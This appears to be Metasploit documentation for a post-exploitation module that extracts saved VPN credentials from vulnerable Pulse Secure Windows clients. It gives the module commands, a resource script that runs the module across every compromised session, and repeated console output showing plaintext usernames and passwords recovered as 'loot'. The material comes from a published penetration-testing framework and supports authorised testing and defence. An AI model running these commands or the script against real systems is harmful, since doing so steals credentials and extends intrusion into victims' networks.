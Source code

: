 ## Vulnerable Application

Pulse Secure VPN Client for versions 9.1 prior to 9.1R4 and 9.0 prior to 9.0R5.

An end-to-end setup with working Juniper Pulse Secure VPN server, Pulse Secure client on
Microsoft Windows, and valid credentials are required for Pulse Secure client to save
credentials locally and therefore test this.

## Verification Steps

1. Get a Meterpreter shell on a Windows machine that has Pulse Secure client installed.
2. Load the module: `use post/windows/gather/credentials/pulse_secure`
3. Set the correct session on the module: `set SESSION *session id*`
4. Run the module with `run` and enjoy the loot.

## Scenarios

The command for all scenarios is the same:

```
msf > use post/windows/gather/credentials/pulse_secure
msf > set SESSION 1
msf > run
```

If you wish to run the post module against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/pulse_secure")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

### Pulse Secure 9.0.4 on Microsoft Windows 10 Enterprise 19042

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.4.1731.
[+] This version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: 
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Pulse Secure 9.0.5 on Microsoft Windows 10 Enterprise 19042

With leftovers from previously installed version (9.0.4):

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.5.1907.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[+] Account found
[*]      Username:
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

Without any leftovers from previously installed versions:

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.5.1907.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[*] Post module execution completed
```


### Pulse Secure 9.0.5 on Microsoft Windows 10 Enterprise 19042 (Elevated)

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.5.1907.
[+] You're executing from a privileged process so this version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: john.doe@contoso.local
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Pulse Secure 9.1.3 on Microsoft Windows 10 Enterprise 19042

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.3.1313.
[+] This version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username:
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Pulse Secure 9.1.4 on Microsoft Windows 10 Enterprise 19042

With leftovers from previously installed version (9.1.3):

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.4.1955.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: 
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

Without leftovers:

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.4.1955.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[*] Post module execution completed
```

### Pulse Secure 9.1.4 on Microsoft Windows 10 Enterprise 19042 (Elevated)

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.4.1955.
[+] You're executing from a privileged process so this version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: john.doe@contoso.local
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Host without Pulse Secure

```
msf6 post(windows/gather/credentials/pulse_secure) > run

[-] Pulse Secure Connect client is not installed on this system
[*] Post module execution completed
```

## References

- https://qkaiser.github.io/reversing/2020/10/27/pule-secure-credentials
- https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44601
